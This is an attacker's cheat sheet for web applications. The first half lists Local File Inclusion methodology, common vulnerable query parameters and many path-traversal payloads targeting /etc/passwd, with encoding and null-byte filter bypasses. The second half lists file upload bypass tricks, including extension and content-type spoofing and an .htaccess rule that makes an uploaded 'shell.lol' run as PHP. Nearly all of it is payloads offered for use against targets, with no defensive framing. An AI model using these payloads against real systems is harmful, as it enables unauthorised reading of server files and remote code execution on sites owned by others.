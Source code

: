
## LFI (Local File Inclusion)


#### Methodology

- Identify the input Location
- add parameter to `/etc/passwd`
- If Error, Start Appending `../` at the beginning of the payload
- Continue till 10-20 `../../../../../`
- If Nothing works, Try above mentioned Encoding Techniques.


__Vulenrable Parameeters__

```js
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

### Payloads
__Primary Payload__
```
file=/etc/passwd
```

__Other Techniques__
```
http://targetserver.com/load.php?page=../../../../../etc/passwd
http://targetserver.com/load.php?page=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
http://targetserver.com/load.php?page=../../../../../etc/passwd%00   -->For Extension Filters
http://targetserver.com/load.php?page=../../../../../etc/passwd%2500 -->For Extension Filters
http://targetserver.com/load.php?page=..\..\..\..\..\etc\passwd%00
http://targetserver.com/load.php?page=../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd http://targetserver.com/load.php?page=/etc/passwd/../../../../../../../../../../../../../../../../../..
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

__some filter check whether the value of page= starts with /public or not if no they will block the request__
```
http://targetserver.com/load.php?page=/public/../../../../../../../../etc/passwd
```


__Encodings__
```js
URl encoding
Double encoding
16-unicode encoding
overlong UTF-8 Encoding
```

__Windows__
```
http://targetserver.com/load.php?page=../../../windows.ini
```



# File Upload

- Upload php
- Upload Different Version .php2 , .php3
- Upload html file
- Upload .phP
- Upload .PHP
- Upload .svg
- Remove Cookies from Upload Request
- Upload file.php.png
- Change content-type of request to accepted files content type
- Change Magic Byte of File to Accepted file


__If you can upload any random Extension but cannot execute the code__

- Create a new file `.htaccess` with the content
```
AddType application/x-httpd-php .lol
```

- Upload `.htaccess` to folder
- now upload `shell.lol` to the same folder


__Content-Type__

```
image/gif
text/html
application/xml
image/x-icon
image/jpeg
image/svg+xml
application/json
image/png
application/xhtml+xml
application/x-shockwave-flash
application/zip
application/javascript
application/x-bzip
text/css
text/csv
video/3gpp
```
